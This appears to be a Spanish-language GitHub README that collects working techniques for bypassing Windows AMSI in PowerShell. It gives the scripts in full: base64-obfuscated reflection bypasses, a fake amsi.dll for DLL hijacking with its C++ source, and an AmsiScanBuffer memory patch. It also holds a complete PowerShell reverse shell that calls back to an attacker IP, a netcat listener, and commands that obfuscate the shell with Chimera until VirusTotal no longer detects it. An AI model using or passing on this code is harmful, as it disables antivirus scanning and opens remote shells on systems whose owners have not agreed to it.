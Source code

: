 # Evasión de AMSI #

Este repositorio contiene algunos métodos de evasión de AMSI que he encontrado, fueron probados en los siguiewntes sistemas operativos:

- Windows 10
- Windows 11
- Windows Server 2016
- Windows Server 2019
- Windows Server 2022

Todos en sus versión nás reciente para el momento (21H2) y probados en PowerShell 5.1 como en 7.2

Se dejaron de lado técnicas que ya han sido parchadas o que utilicen ejecutables o DLL modificadas debido a que, con el pasar del tiempo, las firmas de estos archivos son detectados por los antivirus; por esta razón se privilegiaron aquellas técnicas que puedan ser ejecutadas en memoria y con un usuario estándar lo cuales pueden ser útiles en un escenario de post explotación.

Estos scripts podrían ser detectados por AMSI en el futuro. Por lo que recomiendo usar herramientas de ofuscación como [Chimera](https://github.com/tokyoneon/Chimera) o [Invoke-Stelth](https://github.com/JoelGMSec/Invoke-Stealth).

1. [Metodo Reflection de Matt Graeber (base64)](#Método-Reflection-de-Matt-Graeber-(base64) "Goto Método-Reflection-de-Matt-Graeber-(base64)")
2. [Error Forzado](#Error-Forzado "Goto Error-Forzado")
3. [DLL Hijacking](#DLL-Hijacking "goto DLL-Hijacking")
4. [Memory Patching](#Memory-Patching "Goto Memory-Patching")
5. [Ofuscación con Chimera](#Ofuscación-con-Chimera "Goto Ofuscación-con-Chimera")

## Método Reflection de Matt Graeber (base64) ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red)

<details><summary>Ver Script</summary>
<p>
 
```PowerShell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
 </p>
</details>

## Error Forzado ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red)

<details><summary>Ver Script</summary>
<p>
 
```PowerShell
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils' 
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)   
```
 </p>
</details>

## DLL Hijacking ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Falla-red) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red)

Para hacerlo funcionar deben copiar la [amsi.dll](amsi.dll) que está en el repositorio (está compilada para x64). Si deseas compilar tu propia DLL abajo tienes el código fuente:

<details><summary>Código de la amsi.dll falsa</summary>
<p>
 
````C++
#include "pch.h"
#include "iostream"
 
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        LPCWSTR appName = NULL;
        typedef struct HAMSICONTEXT {
            DWORD       Signature;            // "AMSI" or 0x49534D41
            PWCHAR      AppName;           // set by AmsiInitialize
            DWORD       Antimalware;       // set by AmsiInitialize
            DWORD       SessionCount;      // increased by AmsiOpenSession
        } HAMSICONTEXT;
        typedef enum AMSI_RESULT {
            AMSI_RESULT_CLEAN,
            AMSI_RESULT_NOT_DETECTED,
            AMSI_RESULT_BLOCKED_BY_ADMIN_START,
            AMSI_RESULT_BLOCKED_BY_ADMIN_END,
            AMSI_RESULT_DETECTED
        } AMSI_RESULT;
 
        typedef struct HAMSISESSION {
            DWORD test;
        } HAMSISESSION;
 
        typedef struct r {
            DWORD r;
        };
 
        void AmsiInitialize(LPCWSTR appName, HAMSICONTEXT * amsiContext);
        void AmsiOpenSession(HAMSICONTEXT amsiContext, HAMSISESSION * amsiSession);
        void AmsiCloseSession(HAMSICONTEXT amsiContext, HAMSISESSION amsiSession);
        void AmsiResultIsMalware(r);
        void AmsiScanBuffer(HAMSICONTEXT amsiContext, PVOID buffer, ULONG length, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT * result);
        void AmsiScanString(HAMSICONTEXT amsiContext, LPCWSTR string, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT * result);
        void AmsiUninitialize(HAMSICONTEXT amsiContext);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
````
 </p>
</details>

Una vez copiado el archivo, ejecuta el siguiente código en PowerShell:

````PowerShell
Copy-Item -Path C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Destination $pwd
& "$pwd\powershell.exe"
````

## Memory Patching ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen)

<details><summary>Ver Script</summary>
<p>

```PowerShell
$Win32 = @"
 
using System;
using System.Runtime.InteropServices;
 
public class Win32 {
 
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
 
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
 
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
 
}
"@
 
Add-Type $Win32
 
$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]0)
$Patch = [Byte[]] (0xc3, 0x90, 0x90)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 3)  
```
</p>
</details>

## Ofuscación con Chimera ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen)

Una vez instalado [Chimera](https://github.com/tokyoneon/Chimera) debemos adecuar el script para que se comunique con la máquina atacante:

 ```bash
/opt/chimera$ sed -i 's/192.168.56.101/10.0.2.5/g' shells/*.ps1
 ```
 
Y posteriormente levantar nuestra Reverse Shell:
 
 ```bash
nc -nlvp 4444
 ```
 
<details><summary>Nuestra Reverse Shell en PowerShell sin ofuscar</summary>
<p>
 
```PowerShell
$client = New-Object System.Net.Sockets.TCPClient("10.0.2.5",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
</p>
</details>

Para ofuscarlo debemos ejectar el siguinete comando e ir probando el resultado en [VirusTotal](https://www.virustotal.com/gui/home/upload). 
```bash
/opt/chimera.sh -f /opt/shells/powershell_reverse_shell.ps1 -o /tmp/chimera.ps1 -l 4 -v -c -i -j -g -r -p -b new-object,out-string
 ```
